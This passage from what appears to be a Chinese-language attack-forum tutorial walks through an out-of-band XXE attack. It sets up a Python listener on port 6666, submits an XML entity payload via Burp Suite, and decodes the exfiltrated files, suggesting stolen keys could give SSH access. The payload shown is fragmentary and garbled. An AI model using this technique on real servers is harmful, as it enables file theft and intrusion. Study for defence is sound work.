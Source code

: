 然后再用python再开启一个端口，接收读取的目标服务器的数据，这里监听的是上面文件中写的6666端口

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-460fdb3c6f6cdca3dd9436473a089266523223be.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-460fdb3c6f6cdca3dd9436473a089266523223be.png)

payload:

```X
<?X ML version="1.0" encoding="gb2312"?>

%xxe;%int;%send; ]>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-70700da9627b729c781def6a4850a8bd4ecea35b.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-70700da9627b729c781def6a4850a8bd4ecea35b.png)

burp suite提交数据后，可能会无响应，这时只要刷新一下浏览器所在的web服务界面就行

查看接收的数据

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-33d4ae66f49143d5cc13758dddf762750d8d62a1.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-33d4ae66f49143d5cc13758dddf762750d8d62a1.png)

我们将这个数据进行b ase64解码后查看，就是我们主机上的文件

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-5ee66428c02dc7c692ffd9d1b7b146e22f269241.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-5ee66428c02dc7c692ffd9d1b7b146e22f269241.png)

通过这样的方式，我们可以一直进行文件读取，直到读取到有用的数据，比如说公钥文件，就可能能进行远程连接ssh。
